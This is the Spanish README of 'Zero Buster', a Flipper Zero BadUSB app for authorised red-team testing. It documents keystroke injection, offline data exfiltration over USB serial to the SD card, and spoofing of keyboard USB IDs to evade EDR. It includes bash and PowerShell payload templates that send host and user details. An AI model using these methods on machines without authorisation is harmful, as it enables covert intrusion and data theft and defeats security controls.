

[](README.md)
[](README_es.md)

# Zero Buster

<p align="center">
  
</p>

Herramienta avanzada de auditoría de seguridad y simulación de adversarios para **Flipper Zero** que implementa un vector de ataque **BadUSB bidireccional (Duplex)** con exfiltración local a través de emulación serie **USB CDC**, eliminando por completo la dependencia de interfaces de red, conexiones a Internet o servidores C2 externos.

La aplicación permite la inyección automatizada de comandos mediante emulación de teclado (HID) con traducción nativa para distribuciones internacionales a través de los mapas de teclado estándar `.kl` de Flipper Zero (`en-US` por defecto), conmutando dinámicamente el bus USB a un puerto serie virtual para capturar telemetría de diagnóstico y ficheros directamente en la tarjeta MicroSD (`/ext/apps_data/zero_buster/`). Incorpora además capacidades avanzadas de **suplantación de identidad de hardware (USB Spoofing)** en caliente para evadir sistemas EDR y políticas de control de periféricos basadas en listas blancas de dispositivos.

---

## Concepto: ¿Por qué Zero Buster?

En *Mega Man Battle Network*, Lan Hikari conecta su PET a cualquier terminal o dispositivo mediante un cable físico al grito de:
> **«Jack in! MegaMan.EXE, Transmit!»**

**Zero Buster** replica exactamente esa filosofía en el mundo real utilizando el hardware de **Flipper Zero**:
1. **Jack In (HID Injection):** Al enchufar el cable USB, el Flipper emula un teclado de confianza y dispara el payload seleccionado (Battle Chip).
2. **Duplex Channel (CDC Switch):** El Flipper transmuta su interfaz USB a puerto serie virtual (`/dev/ttyACM*` en Linux / `COM*` en Windows).
3. **Data Exfiltration (Loot):** El host transmite telemetría o archivos directamente a la MicroSD del Flipper sin tocar la red local.

---

## Características Principales

### 1. Soporte Completo de Layouts (.kl) con en-US por Defecto
A diferencia de herramientas con layouts fijos o limitados, **Zero Buster** aprovecha directamente la biblioteca de distribuciones de teclado estándar de Flipper Zero (`.kl`):
* **Carga dinámica desde MicroSD:** Escanea y carga los mapas de teclado de `/ext/badusb/assets/layouts/` (`en-US`, `es-ES`, `de-DE`, `fr-FR`, `it-IT`, etc.).
* **Por defecto en US:** `en-US` está seleccionado por defecto con soporte fallback integrado mediante `hid_asciimap`.
* **Seleccionable en pantalla:** Rota con la cruceta (izquierda/derecha) entre todas las distribuciones disponibles en tu dispositivo.

### 2. Chips de Batalla (Payloads) Modulares en `apps_data`
* La aplicación escanea automáticamente la carpeta estándar de datos de aplicación:
  ```text
  /ext/apps_data/zero_buster/payloads/
  ```
* Coloca tus propios scripts (`.ps1`, `.sh`, `.txt`) directamente en esta carpeta.
* En la pantalla del Flipper, navega y selecciona en vivo qué payload disparar mediante la cruceta.
* La aplicación garantiza la creación de la estructura de directorios en cada arranque sin inyectar scripts invasivos no deseados, dejando al usuario control absoluto sobre su colección de payloads.

### 3. Anonimización de Hardware (USB Spoofing Anti-EDR y Custom HID)
Las soluciones de seguridad corporativas (CrowdStrike, Defender for Endpoint, Trellix) a menudo monitorizan o bloquean periféricos que se identifiquen como *Flipper Devices Inc.* (`VID 0x0483`).
* **Perfiles de suplantación incluidos:**
  * **Logitech K120:** `VID 0x046D` / `PID 0xC31C` (El teclado de oficina más común del mundo).
  * **Dell QuietKey:** `VID 0x413C` / `PID 0x2003`.
  * **Apple Magic Keyboard:** `VID 0x05AC` / `PID 0x0220`.
  * **Flipper Default:** `VID 0x0483` / `PID 0x5740`.
  * **Custom (SD / In-App):** Carga un perfil a medida desde `/ext/apps_data/zero_buster/custom_hid.txt` o edítalo directamente en pantalla.
* Al conectarse al PC, el Administrador de Dispositivos o `lsusb` verá un teclado de oficina legítimo o el dispositivo clonado que elijas.

### 4. Liberación Automática del Bus USB (CLI VCP)
A diferencia de otros scripts BadUSB que dejan el bus USB secuestrado y bloquean la CLI del sistema y la conexión con **qFlipper**:
* La app toma el control exclusivo de `RECORD_CLI_VCP` durante la captura de telemetría.
* Al finalizar la recepción (o si el usuario cancela con `Back`), invoca `zero_buster_release_usb()`:
  * Restaura la configuración USB original.
  * Realiza un ciclado `cli_vcp_disable()` -> `cli_vcp_enable()`.
* **Resultado:** qFlipper y la consola serie del Flipper vuelven a funcionar inmediatamente sin necesidad de reconectar el cable USB ni reiniciar el Flipper.

---

## Estructura del Código

El código fuente sigue la arquitectura canónica de aplicaciones avanzadas para Flipper Zero (`helpers/`, `views/`, `scenes/`):

```text
Zero_Buster/
├── application.fam                  # Manifiesto de la aplicación (appid: zero_buster)
├── assets/                          # Recursos gráficos del Flipper
│   └── icon.png                     # Icono oficial 10x10 (microchip con Z)
├── zero_buster.h                    # Cabecera principal: tipos globales, enums y contexto
├── zero_buster.c                    # Punto de entrada (zero_buster_app) y ciclo de vida
├── helpers/                         # Lógica de soporte y módulos del sistema
│   ├── zero_buster_hid.h / .c       # Inyección HID y perfiles de hardware USB
│   ├── zero_buster_storage.h / .c   # Gestión MicroSD: persistencia custom_hid, layouts y loot
│   └── zero_buster_worker.h / .c    # Hilo worker: inyección BadUSB y captura serie USB CDC
├── views/                           # Renderizado en pantalla e interacción visual
│   └── zero_buster_view.h / .c      # Callbacks Canvas: UI del menú, editor HID y progreso/estado
├── scenes/                          # Máquina de estados y gestión de eventos de usuario
│   ├── zero_buster_scene.h          # Declaración unificada de manejadores de escenas
│   ├── zero_buster_scene_main.c     # Manejador del menú principal y disparo directo
│   ├── zero_buster_scene_about.c    # Manejador de la pantalla de créditos y enlaces
│   ├── zero_buster_scene_edit_hid.c # Manejador interactivo del editor de VID/PID/Strings
│   └── zero_buster_scene_status.c   # Manejador durante ejecución, cancelación y fin de exfiltración
├── payloads/                        # Plantillas de ejemplo para el usuario
│   ├── 01_example_linux.sh          # Linux: Ejemplo de recon y cierre con <<<EOF>>>
│   └── 02_example_windows.ps1       # Windows: Ejemplo de recon y cierre con <<<EOF>>>
├── screenshots/                     # Capturas de pantalla de la interfaz
│   └── main_menu.png                # Captura del menú principal
├── .catalog/                        # Metadatos para Flipper Lab / Flip Catalog
│   ├── changelog.md                 # Historial de cambios
│   └── screenshots/                 # Capturas en formato de catálogo
└── README.md                        # Documentación técnica en inglés (por defecto)
```

---

## Compilación e Instalación

### Compilación con uFBT (SDK Autónomo)
```bash
# Compilar el binario .fap
ufbt

# Compilar e instalar directamente en el Flipper conectado por USB
ufbt launch
```
*(O copia el archivo `.fap` generado a la carpeta `apps/USB/` de tu tarjeta MicroSD).*

---

## Controles en Pantalla

### Menú Principal:
* **[OK] (Pulsación corta):**
  * Si estás sobre las opciones `PID:`, `KEY:` o `HID:`, ejecuta **¡Jack In Inmediato!** lanzando la inyección y exfiltración directamente desde cualquier opción seleccionada sin tener que desplazarte.
  * Si estás sobre `Cfg:`, abre el editor interactivo de Custom HID.
  * Si estás sobre `Info:`, abre la pantalla de información y créditos del autor.
* **Arriba / Abajo:** Navega entre los ajustes y opciones disponibles:
  1. `PID:`: Payload seleccionado (escanea `/ext/apps_data/zero_buster/payloads/`).
  2. `KEY:`: Distribución de teclado (`en-US` por defecto, más layouts `.kl` de `/ext/badusb/assets/layouts/`).
  3. `HID:`: Perfil de hardware USB (`Logitech K120`, `Dell`, `Apple`, `Flipper`, `Custom`).
  4. `Cfg:`: `[ Edit Custom HID > ]` *(Visible solo cuando `HID: Custom` está activo)*.
  5. `Info:`: `[ Credits / About > ]` (Acceso a la vista de créditos, versión, GitHub y LinkedIn).
* **Izquierda / Derecha:** Modifica el valor del ajuste seleccionado (cambia payload, layout o perfil HID).
* **Pie informativo inferior:** Muestra dinámicamente la acción asociada en inglés (`[ OK = Jack In! ]`, `[ OK = Edit Custom HID ]` o `[ OK = View Credits ]`).
* **[Back]:** Cancela la ejecución en curso o sale de la aplicación.

### Pantalla de Información y Créditos (`Info / About`):
Se accede pulsando **[OK]** sobre `Info: [ Credits / About > ]`:
* Muestra la versión del programa (`Zero Buster v1.1`), el autor (**Javier Julve**) y los enlaces oficiales:
  * GitHub: `github.com/DonJulve`
  * LinkedIn: `in/javier-julve-yubero`
* **[OK] / [Back]:** Regresa al menú principal (`[ OK / Back = Back ]`).

### Editor de HID en Pantalla (`HID Editor`):
Se accede pulsando **[OK]** sobre `Cfg: [ Edit Custom HID > ]` (o manteniendo pulsado **[OK]** sobre `HID: Custom`):
* **Izquierda / Derecha:** Mueve el cursor entre los dígitos hexadecimales (0-F) de `VID`, `PID`, fabricante (`Mfg`), producto (`Prd`) y el botón `[ SAVE & EXIT ]`.
* **Arriba / Abajo:** Incrementa / decrementa el dígito hexadecimal seleccionado o rota entre presets de fabricante/producto.
* **[OK] / [Back]:** Guarda la nueva configuración directamente en `/ext/apps_data/zero_buster/custom_hid.txt` en la MicroSD y vuelve al menú principal (`[ Back = Save & Exit ]`).

### Cancelar Operación en Curso:
Durante cualquier fase activa (Charging NetLink, Jack In Transmitting, Switching CDC, Exfiltrating), se muestra en pantalla:
```
[ Back = Cancel ]
```
Pulsar **[Back]** cancela de forma limpia: detiene el hilo de trabajo, libera el bus USB y regresa al menú principal.

---

## Cómo Crear tus Propios Payloads (Chips de Batalla)

Zero Buster es completamente modular. Para añadir nuevos scripts de recolección de datos, solo necesitas crear un script y guardarlo en la carpeta de la MicroSD:
```text
/ext/apps_data/zero_buster/payloads/
```

### Protocolo de Comunicación Duplex (4 Fases Obligatorias)

Todo payload compatible con Zero Buster debe cumplir las siguientes fases:

1. **Inyección Inicial (BadUSB):** El Flipper abre la terminal del sistema (`Win + R` -> PowerShell en Windows, `Ctrl + Alt + T` en Linux) y tipea el código del script directamente en el intérprete.
2. **Detección Dinámica del Puerto Serie:** El Flipper cambia su interfaz física de teclado USB HID a puerto serie USB CDC (`/dev/ttyACM*` en Linux / `COM*` en Windows). El script debe sondear en bucle durante varios segundos hasta que el sistema operativo registre el nuevo dispositivo.
3. **Pausa de Asentamiento y Apertura Serie:** Tras detectar el puerto, el script debe pausar entre 500 y 1000 milisegundos para permitir que el Flipper abra el fichero `loot_XXX.txt` en la MicroSD. A continuación, abre el puerto serie a **115200 baudios** con las señales **DTR** y **RTS** activadas.
4. **Marcador de Finalización Obligatorio (`<<<EOF>>>`):** Al concluir el volcado de datos, el script **debe transmitir la cadena exacta `<<<EOF>>>`** y cerrar el puerto. Esta marca le indica al Flipper que cierre el archivo de botín, restaure el bus USB original y muestre *Mission Complete!*.

---

### Plantilla Base para Linux (`.sh`)

Crea un archivo con extensión `.sh` (por ejemplo, `01_example_linux.sh`):

```bash
#!/bin/bash
# 1. Espera activa a que el Flipper conmute de HID a CDC
for i in $(seq 1 60); do
    dev=$(ls -t /dev/ttyACM* 2>/dev/null | head -n1)
    [ -n "$dev" ] && break
    sleep 0.2
done

# 2. Si se detecta el puerto, transmitimos datos
if [ -n "$dev" ]; then
    sleep 0.5
    (
        echo "=== MI PAYLOAD PERSONALIZADO (LINUX) ==="
        echo "Host: $(hostname)"
        echo "Usuario: $(whoami)"
        echo "Kernel: $(uname -r)"
        echo "Fecha: $(date)"
        echo "----------------------------------------"
        # Tus comandos de recoleccion aqui
        uptime
        echo "========================================"
        # 3. Marcador de cierre obligatorio
        echo "<<<EOF>>>"
    ) > "$dev"
fi
```

---

### Plantilla Base para Windows (`.ps1`)

Crea un archivo con extensión `.ps1` (por ejemplo, `02_example_windows.ps1`):

```powershell
# 1. Cargar ensamblado .NET para comunicacion serie
Add-Type -AssemblyName System.IO.Ports

# 2. Bucle de sondeo para detectar el puerto COM del Flipper
$targetPort = $null
for ($i = 0; $i -lt 60; $i++) {
    $ports = [System.IO.Ports.SerialPort]::GetPortNames()
    if ($ports.Count -gt 0) {
        # Selecciona el COM con numero mas alto (evita el COM1 estatico de placa base)
        $targetPort = ($ports | Sort-Object { [int]($_ -replace '\D') } | Select-Object -Last 1)
        if ($ports.Count -gt 1 -or $targetPort -ne "COM1") { break }
    }
    Start-Sleep -Milliseconds 250
}

if (-not $targetPort -and $ports.Count -gt 0) {
    $targetPort = $ports[-1]
}

if ($targetPort) {
    # 3. Pausa de asentamiento para sincronizar con la MicroSD
    Start-Sleep -Milliseconds 500

    $serial = New-Object System.IO.Ports.SerialPort $targetPort, 115200, None, 8, One
    $serial.DtrEnable = $true
    $serial.RtsEnable = $true

    try {
        $serial.Open()
        $serial.WriteLine("=== MI PAYLOAD PERSONALIZADO (WINDOWS) ===")
        $serial.WriteLine("Host: " + $env:COMPUTERNAME)
        $serial.WriteLine("Usuario: " + $env:USERNAME)
        $serial.WriteLine("----------------------------------------")
        # Tus comandos de recoleccion aqui
        $serial.WriteLine("Directorio actual: " + (Get-Location).Path)
        $serial.WriteLine("========================================")
    } catch {
        # Manejo silencioso de excepciones
    } finally {
        # 4. Envio garantizado de EOF incluso ante errores
        try {
            $serial.WriteLine("<<<EOF>>>")
            Start-Sleep -Milliseconds 200
            $serial.Close()
        } catch {}
    }
}
exit
```

---

## Botín Exfiltrado (Loot)

Los datos exfiltrados por USB CDC se guardan automáticamente en una carpeta dedicada llamada `loot` con numeración incremental en tu MicroSD:
```text
/ext/apps_data/zero_buster/loot/loot_001.txt
/ext/apps_data/zero_buster/loot/loot_002.txt
...
```
Cada ejecución exitosa muestra en pantalla:
```
Mission Complete!
Total: XXXX bytes
File: loot_XXX.txt
[ OK / Back = Exit ]
```

Si el usuario cancela la ejecución (`Back`) o finaliza por inactividad sin datos recibidos, la aplicación no almacena archivos vacíos ni parciales, manteniendo limpio el directorio de loot en la MicroSD.

---

## Autor y Créditos

* **Desarrollador:** Javier Julve ([@DonJulve](https://github.com/DonJulve))
* **Repositorio Oficial:** [Zero Buster en GitHub](https://github.com/DonJulve/Zero_Buster)
* **LinkedIn:** [Javier Julve Yubero](https://www.linkedin.com/in/javier-julve-yubero)

---

## Aviso Legal y Descargo de Responsabilidad (Disclaimer)

Este software y sus herramientas asociadas han sido diseñados, desarrollados y distribuidos **únicamente con fines educativos, de investigación académica y para auditorías de seguridad autorizadas** (pruebas de penetración y ejercicios de Red Team bajo consentimiento informado).

1. **Uso Autorizado:** El uso de esta aplicación en sistemas o redes informáticas ajenas sin la autorización previa, expresa y por escrito de sus legítimos propietarios es estrictamente ilegal y puede constituir delito bajo la legislación vigente.
2. **Exención de Responsabilidad:** El autor (@DonJulve) no se hace responsable bajo ninguna circunstancia de daños directos, indirectos, pérdidas de información, sanciones administrativas o responsabilidades civiles y penales derivadas del mal uso o actividades ilícitas cometidas por terceros utilizando este software o sus scripts asociados.
3. **Responsabilidad del Usuario:** Al descargar, clonar, compilar o ejecutar este software, el usuario asume de manera íntegra, exclusiva e intransferible toda la responsabilidad legal y ética sobre el uso de la herramienta.

